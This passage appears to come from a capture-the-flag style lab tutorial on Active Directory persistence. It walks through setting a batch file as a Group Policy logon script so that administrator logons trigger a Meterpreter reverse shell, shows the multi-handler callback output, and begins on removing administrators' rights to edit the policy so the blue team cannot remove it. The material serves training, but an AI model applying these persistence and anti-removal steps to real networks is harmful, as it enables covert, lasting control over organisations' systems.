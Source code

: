 ![GPO edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/99a7c82a27440ca59365581c3191ce24.png)

Let's get back to our Group Policy Management Editor:  

1. Under User Configuration, expand **Policies->Windows Settings**.
2. Select **Scripts (Logon/Logoff)**.
3. Right-click on **Logon->Properties**
4. Select the **Scripts** tab.
5. Click **Add->Browse**.

Let's navigate to where we stored our Batch and binary files:

![GPO edit](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/c74b252805561488167c1a7c5d02dcce.png)  

  

Select your Batch file as the script and click **Open** and **OK**. Click **Apply** and **OK**. This will now ensure that every time one of the administrators (tier 2, 1, and 0) logs into any machine, we will get a callback.

In order to simulate this, let's reset the password for one of the Tier 1 administrator accounts and authenticate to a server. Use any of the techniques you've learned in the previous AD rooms to either reset the password of one of the Tier 1 administrators. Once done, remember to start your MSF multi-handler, and let's test it out by RDPing into THMSERVER1 or THMSERVER2!

Use your Tier 1 administrator credentials, RDP into one of the servers. If you give it another minute, you should get a callback on your multi-handler:

```markup
msf5 exploit(multi/handler) > run 
Started reverse TCP handler on 172.31.16.251:4445 

[*] Sending stage (176195 bytes) to 172.31.1.201 
[*] Meterpreter session 1 opened (172.31.16.251:4445 -> 172.31.1.201:63695) at 2022-05-07 10:06:28 +0100 

meterpreter >
```

Note: You need to create a Logon event for the GPO to execute. If you just closed your RDP session, that only performs a disconnect which means it would not trigger the GPO. Make sure to select navigate to sign out as shown below in order to terminate the session. This will ensure that a Logon event is generated when you reauthenticate:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/7e98b74b5dd21316a351384085eb2b5d.png)  

## Hiding in Plain Sight  

Now that we know that our persistence is working, it is time to make sure the blue team can't simply remove our persistence. Go back to your MMC windows, click on your policy and then click on Delegation:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/6093e17fa004d20049b6933e/room-content/744c4e6a1dd0a5aef63680cc7cf53120.png)  

By default, all administrators have the ability to edit GPOs. Let's remove these permissions:
